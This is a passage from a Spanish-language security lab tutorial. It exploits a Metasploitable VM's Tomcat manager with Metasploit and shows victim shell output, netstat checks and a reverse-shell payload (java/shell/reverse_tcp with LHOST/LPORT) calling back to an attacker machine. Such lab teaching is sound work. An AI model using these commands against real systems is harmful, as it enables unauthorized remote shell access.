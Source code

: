         ls -l
        total 76
        drwxr-xr-x  2 root root  4096 2010-03-16 19:11 bin
        drwxr-xr-x  4 root root  4096 2011-12-10 10:31 boot
        ...
        lrwxrwxrwx  1 root root    30 2011-12-10 09:31 vmlinuz -> boot/vmlinuz-2.6.24-30-virtual
        uname -a
        Linux metasploitable.ssi.net 2.6.24-30-virtual #1 SMP Mon Nov 28 20:50:52 UTC 2011 i686 GNU/Linux
        ...

    En la víctima podemos comprobar que hay un nuevo proceso `/bin/sh`
    propiedad del usuario `tomcat55` y sin terminal asociado.

        metasploitable:~$ ps -aux | grep sh

    Podemos comprobar que la conexión está efectivamente establecida,
    lanzando el comando `netstat -tn` en ambos equipos.

        atacante:~# netstat -tn
        Active Internet connections (w/o servers)
        Proto Recv-Q Send-Q Local Address           Foreign Address         State      
        ...
        tcp        0      0 198.51.100.111:43550   198.51.100.222:11111   ESTABLISHED
        ...

        metasploitable:~$ netstat -tn
        Active Internet connections (w/o servers)
        Proto Recv-Q Send-Q Local Address           Foreign Address         State      
        tcp        0      0 198.51.100.222:11111   198.51.100.111:43550   ESTABLISHED

    **Nota:** las sesiones se finalizan con `CONTROL+C`

4.  Uso de un PAYLOAD alternativo (conexión inversa)

    Otro posible exploit sería `java/shell/reverse_tcp` con un
    comportamiento inverso a la hora de las conexiones. En este caso
    será el PAYLOAD en ejecución en la víctima quien se conectará a un
    puerto local de la máquina atacante (o de la máquina que le
    indiquemos).

    -   Normalmente es menos frecuente que este tipo de conexiones
        inversas sean filtradas por posibles cortafuegos intermedios

    <!-- -->

        msf  exploit(tomcat_mgr_deploy) > set PAYLOAD java/shell/reverse_tcp
        msf  exploit(tomcat_mgr_deploy) > show options
        msf  exploit(tomcat_mgr_deploy) > set LHOST 198.51.100.111
        msf  exploit(tomcat_mgr_deploy) > set LPORT 22222
        msf  exploit(tomcat_mgr_deploy) > exploit 

    Debemos especificar la dirección (LHOST, *listening host*) y el
    puerto (LPORT, *listening port*) a donde debe conectarse el PAYLOAD.

        atacante:~# netstat -tn
        Active Internet connections (w/o servers)
        Proto Recv-Q Send-Q Local Address           Foreign Address         State      
        ...
        tcp        0      0 198.51.100.111:22222   198.51.100.222:57091   ESTABLISHED
